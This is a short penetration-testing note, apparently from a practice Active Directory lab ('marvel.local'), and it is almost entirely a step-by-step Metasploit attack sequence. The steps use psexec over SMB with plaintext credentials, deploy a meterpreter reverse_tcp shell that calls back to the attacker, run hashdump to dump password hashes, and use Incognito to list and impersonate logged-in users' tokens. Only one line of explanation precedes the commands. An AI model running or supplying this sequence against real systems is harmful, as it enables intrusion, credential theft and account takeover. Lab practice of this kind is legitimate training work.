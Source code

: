 **Tokens are much like web cookies. They are a temporary key that allows you to access the system and network without having to provide credentials each time you access a file. Incognito exploits this the same way cookie stealing works, by replaying that temporary key when asked to authenticate.**
```bash
sudo msfdb run
```
```bash
use exploit/windows/smb/psexec
```
```bash
set rhost $TARGET
```
```bash
set smbdomain marvel.local
```
```bash
set smbpass Password1
```
```bash
set smbuser groot
```
```bash
show targets
```
```bash
set target 2
```
```bash
set payload windows/x64/meterpreter/reverse_tcp
```
```bash
set lhost eth0
```
```bash
run
```
```bash
hashdump
```
![[Pasted image 20211227202153.png]]
```bash
getuid
```
```bash
sysinfo
```
```bash
load incognito
```
```bash
list_tokens -u
```
Impersonate token will only show users who are logged in until rebooted.
```bash
impersonate_token marvel\groot
```